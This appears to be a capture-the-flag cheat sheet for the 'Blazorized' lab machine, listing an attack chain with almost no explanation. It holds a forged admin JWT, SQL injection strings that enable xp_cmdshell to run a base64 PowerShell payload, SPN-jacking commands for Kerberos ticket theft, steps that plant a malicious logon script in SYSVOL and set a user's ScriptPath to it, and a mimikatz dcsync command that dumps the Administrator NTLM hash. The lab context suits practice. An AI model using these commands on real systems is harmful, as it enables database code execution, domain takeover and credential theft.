 # Blazorized

JWT:
{
  "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "superadmin@blazorized.htb",
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Super_Admin",
  "iss": "http://api.blazorized.htb",
  "aud": "http://admin.blazorized.htb",
  "exp": 1740000000
}

Inject:
www'; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;-- -
www'; exec master..xp_cmdshell 'powershell#3base64';-- -

SPN Jacking
https://www.thehacker.recipes/ad/movement/kerberos/spn-jacking
https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/
Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='xx/xx'}
Get-DomainSPNTicket -SPN xx/xx

Login bat:
'powershell #3 base64 payload'| Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\shell.bat -Encoding ASCII

Set ScriptPath:
Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\shell.bat'

Get NTLM Hash:
lsadump::dcsync /domain:blazorized.htb /user:Administrator
